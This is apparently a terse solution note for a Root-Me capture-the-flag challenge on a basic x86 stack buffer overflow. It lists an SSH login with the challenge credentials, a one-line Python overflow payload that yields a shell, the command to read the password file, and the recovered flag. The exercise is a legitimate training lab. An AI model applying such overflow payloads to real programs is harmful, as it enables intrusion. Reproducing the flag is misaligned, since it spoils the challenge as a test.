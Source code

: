 # app-server 

# ELF x86 - Stack buffer overflow basic 1

- sshpass -p 'app-systeme-ch13' ssh -p 2222 app-systeme-ch13@challenge02.root-me.org

- (python -c 'print "A"*40 + "\xef\xbe\xad\xde\xaf"';cat) | ./ch13 

- cat .passwd

- 1w4ntm0r3pr0np1s 

